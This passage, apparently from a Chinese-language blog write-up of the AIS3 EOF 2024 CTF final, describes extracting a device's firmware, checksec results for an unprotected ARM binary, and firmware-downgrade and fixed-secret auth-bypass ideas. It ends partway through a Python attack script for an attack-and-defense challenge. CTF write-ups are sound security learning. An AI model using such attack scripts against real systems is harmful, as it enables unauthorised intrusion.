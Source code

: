

每組都有一個 pie, 主辦方會將 firmware 放到 google drive 供大家下載, 要自己拆開.

```sh
binwalk -Mre firmware
```

拆開後大概長這樣: 

![](/ais3-eof-2024-final/pwn2own-firmware.png)

所以這主要是 web 而不是 pwn.

參賽者的目標是要讓 pie 顯示出指定影片, 可以透過 XSS 或 RCE 來達成. 

payload 要透過交給主辦方的 write-up, 由主辦方在 pie 的同個網路環境執行, 只能透過網路進行攻擊, 不能在 pie 接上 usb.

有人打成功後主辦會上 patch, 所以會越來越難, 也有少數 pwn 的洞, 像是這個

![](/ais3-eof-2024-final/pwn2own-auth.png)

這個 bin 是保護全關的, 唯一的缺點是他是 arm-32.

```sh
root@c603fff492a6 /home# checksec auth
[*] '/home/auth'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x10000)
    Stack:    Executable
    RWX:      Has RWX segments
```

後面隊友用 Apple ARM 的 Mac Docker 開了對應架構的 VM, 可以跑但不能 gdb, 聽說用 x86 開就可用. 到了隔天, 我幫隊友從我們的 pie 打 shell 出來給用 gdb, 但還是沒找到 stack 的 address... 後來有別隊解出這個洞.

有另個洞是把 firmware flash 成舊版本, 然後用舊版的洞來打, 後來有 patch 成需要過 auth 才能, 但還是能打過 auth (fixed secret), 但後來時間不夠, 不然基本上 exp 已經寫好了.

感覺我一開始就跳進這題分數會多很多.

這題推別隊寫的[這篇](https://hackmd.io/@TWNWAKing/HJK40Xpca) write-up.

## hahamut [A&D]

這題我基本上只有參與輔助的部分, 題目我沒看. 主要就是自動抓流量來到 Arkime 上看, attack manager 部分由 Wilson 負責, ywc 負責拆 patch. 沒想到過了整個上午我們這隊有洞可以打, 但沒人攻擊 QQ. 直到我午後臨時進入, 從封包抄走別隊的攻擊才開始有攻擊分, 我們隊基本上只有被打穿兩種洞.

附個攻擊 script.

```python
#!/usr/bin/env python3
import sys
from secrets import token_hex
import requests

def main():
    url = f"http://{sys.argv[1]}:8763"
    sess = requests.Session()

    username = token_hex(16)
    sess.post(url + '/register', data={
        'username': username,
        'password': username,
        'role': 'user'
    })

    sess.post(url + '/update', data={
```